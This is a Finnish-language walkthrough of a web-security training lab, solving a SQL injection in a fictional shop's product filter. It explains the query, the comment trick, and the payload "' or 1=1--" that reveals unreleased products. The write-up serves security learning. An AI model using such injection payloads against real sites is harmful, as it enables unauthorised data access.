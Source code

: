 ## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Tehtävänä on suorittaa SQL ingektio kuvitteelliseen verkkokauppaan saadakseen julkaisemattomien ja julkaistujen tuotteiden tietoja esiin. 

Tehtäväannossa on annettu SQL käsky joka hakee tietyn kategorian julkaistut tuotteet

    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Kyseinen käsky hakee 'products' taulusta kaikki tiedot kunhan 'category' on Gifts ja 'released' on 1 (tuote on julkaistu, released=0 tarkoittaa ettei tuotetta ole julkaistu).

Sivustolla ei ole toteutettu suojauksia SQL injektioita vastaan.
 
DevTools työkalun avulla voidaan nähdä polut joihin GET pyynnöt ohjautuvat:

    /filter?category=Gifts

DevTools -> NETWORK -> PATH

![alt devtoolsGifts](./images/devtoolsgifts.png)

Endponti viittaa siihen mitä tuoteryhmiä tullaan näkemään. Kokeillaan muokkamaan suoran endpointia suoraan urlissa. 

    /filter?category='
    Kategoriaksi asetetaan '. Huomataan että sivustolle ilmesty virheilmoitus "Internal Server Error"

Voidaan olettaa että kyseinen manipulaatio näyttää SQL käskynä seuraavanlaisena:

    SELECT * FROM products WHERE category = '

Seuraavaksi yritän saada näkyviin tietyn kategorian kaikki tuotteet, sekä julkaistut että julkaisemattomat.
SQL kommentointia voidaan suorittaa asettamalla -- komentoinnin eteen.
Tarkistellaan annettua SQL käskyä:

    SELECT * FROM products WHERE category ='Gifts' AND released = 1
    jos halutaan olla huomioimatta julkaistu-ehtoa
    tulee muuttaa käskyä seuraavaksi
    SELECT * FROM products WHERE category ='Gifts' -- AND released = 1

Asettamalla kommentoinnin syntaksi endpointiin huomataan että näkyviille tulee kaikki osaston tuotteet. Julkaitut ja julkaisemattomat. Sillä "AND released = 1" muuttuu kommentiksi ja sitä ei suoriteta.

Manipuloidaan seuraavaksi haettavan osaston käskyä.

    SELECT * FROM products WHERE category = "' or 1=1" -- AND relesed = 1 
    Käsky hakee tietokannasta kaikki tuotteet jos kategoria on ' tai 1=1(true) ja jättää huomioimatta released ehdon
    Muokataan url endpointia muotoon:
    /filter?category='+or+1=1--

Kaikki tuotteet tulevat näkyviin, sillä 1=1 on totta, eikä muita ehtoja ole.

![alt problem Solved](./images/problemSolved.png)

Problem solved!











